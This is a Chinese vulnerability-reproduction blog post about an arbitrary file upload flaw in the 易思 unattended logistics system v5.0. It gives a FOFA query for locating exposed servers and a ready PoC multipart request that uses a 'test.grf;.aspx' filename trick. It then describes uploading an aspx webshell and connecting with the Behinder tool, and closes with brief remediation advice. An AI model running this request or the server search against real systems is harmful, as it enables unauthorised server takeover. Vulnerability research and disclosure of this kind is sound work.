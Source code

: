 # 原创
：  漏洞复现-易思无人值守智能物流文件上传

# 漏洞复现-易思无人值守智能物流文件上传

## 免责声明：

文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！

### 一：漏洞描述

易思无人值守智能物流系统/Sys_ReportFile/ImportReport接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

### 二:漏洞影响版本

v5.0

### 三：网络空间测绘查询

fofa:<br/> “易思无人值守智能物流”

### 四：漏洞复现

poc:

```
Host: ip:port
X-File-Name: test.grf
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryxzUhGld6cusN3Alk
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 0

------WebKitFormBoundaryxzUhGld6cusN3Alk
Content-Disposition: form-data; name="file"; .filename="test.grf;.aspx"
Content-Type: application/octet-stream

hello
------WebKitFormBoundaryxzUhGld6cusN3Alk--

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/fdbc5015fe23b89b3217c6d2b68c4116.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ccbeb5886dd77339e799e97caee330be.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/2a1997b9e27904cbc5df83d0dbd7608c.jpeg"/><br/> 上传aspx马，冰蝎连接<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/78809791acd0d4b20ec310bd450234bd.jpeg"/>

### 五：修复建议

对上传文件的类型、大小、文件名等进行验证，确保只允许上传合法的文件类型，并限制文件大小和文件名的长度。可以使用白名单或黑名单的方式进行验证。

及时关注和应用厂商发布的安全补丁和更新，修复已知的文件上传漏洞。
